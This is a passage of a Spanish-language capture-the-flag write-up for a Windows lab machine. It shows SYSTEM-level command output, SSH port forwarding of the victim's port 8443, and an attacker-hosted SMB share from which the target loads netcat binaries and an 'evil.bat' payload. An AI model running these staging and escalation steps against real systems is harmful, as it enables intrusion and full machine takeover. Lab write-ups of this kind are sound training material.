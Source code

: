 ```txt wrap=false
        whoami
        nt authority\system

Risk:
The vulnerability allows local attackers to escalate privileges and execute arbitrary code as Local System
```

Aunque en el segundo paso a pesar de que la contraseña sea la correcta nos pondrá lo siguiete:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FlstXEYRYXQgXjss7kgVt%2Fimage.png?alt=media&#x26;token=ccabe2d1-f3f0-4924-aadc-96583206d92f" alt=""><figcaption></figcaption></figure>

### Port Forwarding

Ya que el panel no acepta conexiones remotas. Con el siguiente comando nos traremos el puerto **8443** de la máquina víctima a el localhost nuestro:

```bash
ssh Nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FUT5nmFIW4mMX6Wr5woVF%2Fimage.png?alt=media&#x26;token=31cb5c20-6857-45c0-9cf6-aeb402392ef1" alt=""><figcaption></figcaption></figure>

Además para enviar los archivos a la máquina víctima usaremos **SMB** de la siguiente manera:

```bash title="Máquina atacante"
smbserver.py smbFolder $(pwd) -smb2support -username zelpro -password zelpro
```

```bash
nadine@SERVMON C:\temp>net use x: \\10.10.14.5\smbFolder /user:zelpro zelpro
The command completed successfully.

nadine@SERVMON C:\temp>dir x:\ 
 Volume in drive X has no label. 
 Volume Serial Number is ABCD-EFAA 
 
 Directory of x:\

09/16/2011  03:52 PM            38,616 nc.exe
08/11/2025  06:08 AM               628 directory_traversal.txt
12/28/2004  04:23 AM            12,166 doexec.c
07/09/1996  08:01 AM             7,283 generic.h
09/16/2011  03:52 PM            45,272 nc64.exe
02/06/1998  08:50 AM            61,780 hobbit.txt
08/11/2025  06:11 AM             1,059 lfi.py
11/03/1994  12:07 PM             4,765 getopt.h
09/16/2011  03:45 PM             6,885 readme.txt
11/06/1996  03:40 PM            22,784 getopt.c
08/11/2025  08:10 AM                51 evil.bat
08/11/2025  07:57 AM             2,616 privilege_escalation.txt
09/16/2011  03:46 PM               300 Makefile
12/27/2004  10:37 AM            18,009 license.txt
08/11/2025  08:11 AM           111,892 netcat-win32-1.12.zip
08/11/2025  08:15 AM    <DIR>          impacket
09/16/2011  03:44 PM            69,850 netcat.c
              16 File(s)        408,052 bytes
               1 Dir(s)               0 bytes free
```
